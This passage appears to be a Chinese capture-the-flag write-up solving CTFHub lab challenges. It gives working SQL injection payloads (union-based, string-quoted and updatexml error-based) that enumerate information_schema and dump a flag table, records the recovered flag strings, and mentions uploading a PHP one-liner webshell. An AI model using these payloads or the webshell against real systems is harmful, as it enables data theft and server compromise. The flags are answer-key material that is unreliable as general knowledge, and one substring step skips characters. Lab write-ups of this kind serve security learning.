 查询 `sqli` 数据库下 flag 表中，`flag` 字段的所有行
```
-1 union select group_concat(flag), 2 from flag
```

flag: `ctfhub{d9e2564dbd5ea3452e0cb73f}`

### SQL 注入 - 字符型注入

跟上一题没什么区别，只要注意引号对称就可以了

查询有哪些数据库：
```
-1' union select group_concat(schema_name), 2 from information_schema.schemata where '1'='1
```

查询 `sqli` 数据库下有哪些表：
```
-1' union select group_concat(table_name), 2 from information_schema.tables where table_schema='sqli
```

查询 `sqli` 数据库下 `flag` 表中，有哪些字段
```
-1' union select group_concat(column_name), 2 from information_schema.columns where table_schema='sqli' and table_name='flag
```

查询 `sqli` 数据库下 flag 表中，`flag` 字段的所有行
```
-1' union select group_concat(flag), 2 from flag where '1'='1
```

flag: `ctfhub{f79bdfdfaaf2bbc506f193fa}`

### SQL 注入 - 报错注入

使用 `updatexml` 构造报错
```
-1 union select updatexml(1, concat(0x7e, (select group_concat(flag) from flag), 0x7e), 1), 2
```

但疑似 flag 较长会被截断，保险一点分两次读：
```
-1 union select updatexml(1, concat(0x7e, (select substring(group_concat(flag), 1, 10) from flag), 0x7e), 1), 2
```

```
-1 union select updatexml(1, concat(0x7e, (select substring(group_concat(flag), 21, 20) from flag), 0x7e), 1), 2
```

flag: `ctfhub{b4d58c04c291bb402557bb70}`

### 文件上传 - 无验证

直接写个 php 一句话木马上传就行
